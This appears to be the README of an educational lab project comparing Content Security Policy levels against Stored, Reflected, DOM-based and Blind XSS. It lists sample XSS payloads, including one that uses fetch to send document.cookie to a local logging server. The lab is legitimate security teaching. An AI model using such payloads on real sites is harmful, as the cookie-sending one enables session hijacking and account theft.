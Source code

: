 # XSS vs CSP: Evaluating Content Security Policy Effectiveness Against XSS Attacks

## Project Description

This project demonstrates the impact of Cross-Site Scripting (XSS) vulnerabilities (Stored, Reflected, DOM-based, and Blind XSS) and evaluates the effectiveness of Content Security Policy (CSP) in mitigating these threats. Built with Node.js, Express, and EJS, it features a web application with four pages showcasing different CSP levels (No CSP, Basic, Moderate, Strict), an admin panel to highlight risks to privileged interfaces, and a Blind XSS logging server. The project serves as an educational resource for understanding XSS vulnerabilities and implementing secure web development practices.

## Features

- **XSS Demonstration Pages**: Four pages with varying CSP configurations to test Stored and Reflected XSS.
- **DOM-Based XSS Testing**: A dedicated page to showcase vulnerable and secure DOM manipulation methods.
- **Admin Panel**: Simulates a privileged interface vulnerable to Stored and Blind XSS.
- **Blind XSS Logging Server**: Captures and logs Blind XSS payloads for analysis.
- **Main Index Page**: A user-friendly entry point with a card-based interface linking to all components.

## Prerequisites

- Node.js (v14 or higher)
- npm (v6 or higher)

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/rishilidha/xss-vs-csp.git
   cd xss-vs-csp
   ```

2. Install dependencies:

   ```bash
   npm install
   ```

3. Start the application:

   ```bash
   npm start
   ```

   The web application will be accessible at `http://localhost:3000`, and the Blind XSS logging server will run on `http://localhost:9000`.

## Usage

1. **Explore XSS Demonstrations**:
   - Navigate to the main index page (`http://localhost:3000`) and access the CSP demonstration pages (No CSP, Basic, Moderate, Strict).
   - Test XSS payloads (e.g., `<script>alert('XSS')</script>`, `<img src="x" onerror="alert('XSS')">`) in the comment and Reflected XSS forms.
2. **Test DOM-Based XSS**:
   - Visit the DOM-based XSS page and experiment with vulnerable methods (e.g., `innerHTML`) and safe alternatives (e.g., `textContent`).
3. **Simulate Admin Panel Attacks**:
   - Access the admin panel to observe how Stored and Blind XSS payloads execute in a privileged context.
4. **Monitor Blind XSS**:
   - Inject Blind XSS payloads (e.g., `<img src="x" onerror="fetch('http://localhost:9000/log', {method: 'POST', body: JSON.stringify({data: document.cookie})})">`) and check the logging server (`http://localhost:9000/logs`) for captured data.

## Project Structure

- `views/`: Contains EJS templates for the web application (e.g., `no-csp.ejs`, `dom-xss-form.ejs`, `admin.ejs`).
- `public/`: Static assets (CSS, JavaScript) for styling and client-side logic.
- `index.js`: Main server file for the web application and Blind XSS logging server.
- `routes/`: Defines Express routes for different pages and functionalities.

## Testing

- Use browser developer tools to inspect CSP headers and payload execution.
- Test payloads provided in the project report (e.g., `<svg onload=alert('XSS')>`, `<div onclick="alert('XSS')">Click me</div>`).
- Verify Blind XSS logs via the `/logs` endpoint on the logging server.

## Demo

- GitHub Repository : https://github.com/rishiiiidha/xss-vs-csp
- Video Demo : https://drive.google.com/file/d/1dS5R73yPrv0dJ8hl6MBQsW8X-ZykkeHn/view

## Acknowledgments

- **Technologies**: Node.js, Express, EJS, CSS, JavaScript.
